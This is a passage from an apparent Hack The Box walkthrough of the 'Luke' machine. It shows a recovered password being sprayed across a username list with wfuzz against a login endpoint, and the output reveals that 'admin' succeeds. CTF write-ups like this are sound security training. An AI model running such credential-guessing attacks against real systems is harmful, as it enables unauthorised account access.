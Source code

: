 ![88ce89ac.png](/assets/images/posts/luke-htb-walkthrough/88ce89ac.png)
</a>

Now that we got `Zk6heYCyv6ZE9Xcg` as password, let's use `wfuzz` as a cracker of sorts and see if we can proceed further with `3000/tcp`.

```
# wfuzz -w users.txt -d '{"username":"FUZZ","password":"Zk6heYCyv6ZE9Xcg"}' -H "Content-Type: application/json" http://luke:3000/login                                       
********************************************************
* Wfuzz 2.2.1 - The Web Fuzzer                           *
********************************************************

Target: HTTP://luke:3000/login
Total requests: 8

==================================================================
ID      Response   Lines      Word         Chars          Request
==================================================================

00007:  C=403      0 L         1 W            9 Ch        "administrator"
00008:  C=403      0 L         1 W            9 Ch        "root"
00001:  C=403      0 L         1 W            9 Ch        "chihiro"
00002:  C=403      0 L         1 W            9 Ch        "Chihiro"
00003:  C=403      0 L         1 W            9 Ch        "derry"
00004:  C=403      0 L         1 W            9 Ch        "Derry"
00005:  C=200      0 L         2 W          219 Ch        "admin"
00006:  C=403      0 L         1 W            9 Ch        "guest"

Total time: 0.612439
Processed Requests: 8
Filtered Requests: 0
Requests/sec.: 13.06250
```
